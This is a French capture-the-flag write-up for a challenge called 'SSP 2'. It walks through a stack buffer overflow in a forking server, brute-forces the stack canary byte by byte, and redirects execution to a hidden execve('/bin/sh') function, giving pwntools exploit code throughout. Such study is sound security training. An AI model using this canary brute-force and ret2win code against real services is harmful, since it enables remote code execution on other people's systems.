 # SSP 2

Maintenant que l'on arrive à communiquer avec le serveur, on va chercher des vulnérabilités.

La seule entrée utilisateur est dans la fonction `recv_and_decrypt`.

![alt text](imgs/image.png)

La fonction `recv` récupère de la donnée du client et la stocke dans la variable `buf` qui est stockée en stack.
La taille de cette variable est fixe (4104 octets) et on peut envoyer maximum 0x1000 octets donc pas d'overflow.

Le contenu de `buf` est ensuite déchiffré et le résultat est stocké dans `a3` qui est un buffer donné en paramètre.

Seule `handle_client` appelle cette fonction.

![alt text](imgs/image-1.png)

Le buffer donné en paramètre est `s` qui est stocké en stack et de taille fixe (264) caractères. On a donc un buffer overflow dans la stack à cet endroit.

Pour le confirmer, je lance le server dans gdb et j'essaie de faire un overflow

```python
io = remote('192.168.1.11', 1337)

cipher = None

init_connexion()
recv_and_decrypt()


encrypt_and_send(b'A' * 0x300)

io.interactive()
```

![alt text](imgs/image-2.png)

J'ai la chaine `stack smashing detected` qui m'indique qu'il y a effectivement eu un stack overflow puisque j'ai écrasé le canary.

Pour pouvoir exploiter cet overflow et réécrire `saved_rip`, je vais devoir remettre en place le canary et donc récupérer sa valeur.

Je n'ai pas trouvé de vulnérabilité me permettant de faire fuiter de l'information mais je peux exploiter le comportement du serveur.  
Dans la fonction `main`, lorsque je me connecte au serveur, il appelle la fonction `fork`.

![alt text](imgs/image-3.png)

Cette fonction permet de dupliquer le processus, l'un va entrer dans la fonction `handle_client` et c'est avec lui que je vais discuter et l'autre fait un tour de boucle et attend un nouveau client. Donc à chaque connexion nous interagissons avec un fork du serveur de base.

Ce comportement est très souvent retrouvé dans le code d'un serveur car il permet de traiter plusieurs clients en même temps.  
L'un des effets de bord de cette architecture est que le processus n'est jamais arrêté ou redémarré, donc son ASLR et la valeur de son canary ne change pas.  
Il est donc possible de faire du brute-force sur le canary.

Le canary est une valeur sur 64 bits donc un brute-force classique ne marcherai pas, cependant il est possible de faire un brute-force "intelligent" qui va attaquer octet par octet.

Dans un premier temps, cherchons l'offset à partir duquel on écrase le canary. Pour cela be met un break point dans gdb au moment de la comparaison du canary (adresse 0x401DDF) et j'envoie une chaine reconnaissable.

```python
init_connexion()
recv_and_decrypt()

encrypt_and_send(cyclic(0x300, n=8) )

io.interactive()
```

![alt text](imgs/image-4.png)

Le canary a été remplacé par `0x6261616161616169`, ce qui correspond à 'iaaaaaab' qui est l'offset 264

![alt text](imgs/image-5.png)

Donc à partir du 265e octet je commence à écraser le canary.  
Comme sa valeur ne bouge pas entre deux connexions, je peux tester les 256 possibilités pour ce 265e octet. Normalement il y a une valeur qui correspond au premier octet de mon canary et pour laquel le programme ne devrait pas crash.

Dans un cas normal, le serveur envoie `Closing connection` avant de terminer la connexion donc si on reçois cette chaine, cela veut dire que le programme n'a pas crash.

```python
for x in range(0x100):
    io = remote('192.168.1.11', 1337, level='error')
    init_connexion()
    recv_and_decrypt()

    p = b'A' * 264
    p += p8(x)

    encrypt_and_send(p)

    data = io.recvall(timeout=1)

    if b'Closing connection' in data:
        print(f"Found: canary = {x}")
        break

```

![alt text](imgs/image-6.png)

On trouve 0 ce qui est normal car le canary dans Linux commence toujours par 0 (il est donc codé en réalité sur 56 ce qui reste pas brute-forceable)

On peut tester ce qu'il trouve comme 2e octet

```python
for x in range(0x100):
    io = remote('192.168.1.11', 1337, level='error')
    init_connexion()
    recv_and_decrypt()

    p = b'A' * 264
    p += b'\x00' # Linux canary always start by 0
    p += p8(x)

    encrypt_and_send(p)

    data = io.recvall(timeout=1)

    if b'Closing connection' in data:
        print(f"Found: canary = {x}")
        break

```

![alt text](imgs/image-7.png)

On a bien trouvé quelque chose et relancer ce programme une seconde fois devrait trouver le même résultat.  
Il n'y a plus qu'à faire de même sur tout le canary

```python
canary = b'\x00'

canary_log = log.progress(f"BF")
while len(canary) != 8:
    for x in range(0x100):
        canary_log.status(f" {canary = } {x:#x}")

        io = remote('192.168.1.11', 1337, level='error')
        init_connexion()
        recv_and_decrypt()

        p = b'A' * 264
        p += canary
        p += p8(x)

        encrypt_and_send(p)

        data = io.recvall(timeout=1)

        if b'Closing connection' in data:
            canary += p8(x)
            break
        io.close()

canary_log.success(f"{canary = }")
```

![alt text](imgs/bf_canary.gif)

Maintenant que l'on a trouvé le canary, on peut écraser `saved_rip` et controller le flux d'execution du programme.

Si l'on regarde toutes les fonctions du programme, on tombe sur celle ci qui est un peu bizarre

![alt text](imgs/image-8.png)

Elle fait un syscall 59 (execve) avec '/bin/sh' en paramètre donc aller dans cette fonction devrait être suffisant pour récupérer un shell.

Il faut encore connaitre l'offset entre le canary et `saved_rip` mais en plaçant plein de fois l'adresse de cette fonction en mémoire on devrait finir par tomber dessus 

```python
io = remote('ssp.serviel.fr', 1234, ssl=True, level='error')
init_connexion()
recv_and_decrypt()

p = b'A' * 264
p += canary
p += p64(0x4014FB)*10

encrypt_and_send(p)
```

![alt text](imgs/image-9.png)